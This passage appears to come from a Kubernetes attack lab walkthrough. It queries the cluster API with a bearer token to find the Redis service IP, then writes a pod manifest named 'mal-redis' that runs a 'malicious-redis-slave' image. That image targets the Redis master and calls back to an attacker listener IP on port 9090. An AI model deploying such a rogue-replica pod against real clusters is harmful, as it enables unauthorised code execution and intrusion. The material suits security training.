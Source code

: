 * Fetch the `clusterIP` of `redis-service` and note the value. 

```bash
curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure | grep -E '("redis-service"|clusterIP)'
```

The response will be similar to the one below. Please note that the IP may differ

```
        "clusterIP": "10.96.0.1",
        "clusterIP": "10.98.196.52",
        "name": "redis-service",
        "clusterIP": "10.97.43.203", # This is the MASTERHOST IP of Redis
```

* On your machine, copy the following JSON value and make the following changes

```
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              {
                "name": "MASTERHOST",
                "value": "Redis-Service-ClusterIP-HERE"
              },
              {
                "name": "MASTERPORT",
                "value": "6379"
              },
              {
                "name": "LISTENER_IP",
                "value": "SERVERIP-HERE"
              },
              {
                "name": "LISTENER_PORT",
                "value": "9090"
              }
            ]
        }]
    }
}
EOF
```

Change the value of `MASTERHOST` with the value of redis-service `clusterIP`.
